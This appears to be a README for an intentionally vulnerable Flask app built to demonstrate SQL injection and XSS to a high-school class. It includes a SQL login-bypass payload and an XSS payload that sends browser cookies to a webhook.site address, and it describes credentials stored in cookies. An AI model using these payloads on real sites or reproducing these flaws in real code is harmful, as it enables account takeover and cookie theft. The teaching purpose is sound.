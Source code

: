 # Flask SQL Injection Demo
This is a small demonstration of how a SQL injection might look like, written for a presentation in front of a highschool class.

The server hosts an index page with a login to demonstrate a SQL injection, e.g. 
```sql
admin'; --
```
in the user input, to successfully log in with any password. The correct password for the admin account is admin123.

After sucessfully logging in, there is a button that redirects to the posts page, which can also be reached by link. 

However, only after a successful login, will the browser set a username and password cookie from the database, which can then be used for demonstratin the XSS attack.

On the posts page, the user can create new posts, including such posts that use HTML elements. This can be used for a XSS attack, e.g.:
```html
<img src="x" onerror="fetch('https://webhook.site/mywebhook?cookies='+document.cookie);">

```
Which will send the browser cookies to your webhook website, demonstrating the dangers of XSS attacks.

If you want to show arbitrary code execution you can generate HTML-Elements with arbitrary code execution, e.g.: with alerts. If you find them annoying, you can remove them by clicking on the red cross (from wikipedia, background removed).

You can reach the server via localhost:5000
## Pictures in static
- red cross
    - By Yerson_O, CC BY-SA 3.0, https://commons.wikimedia.org/w/index.php?curid=2588992, white background removed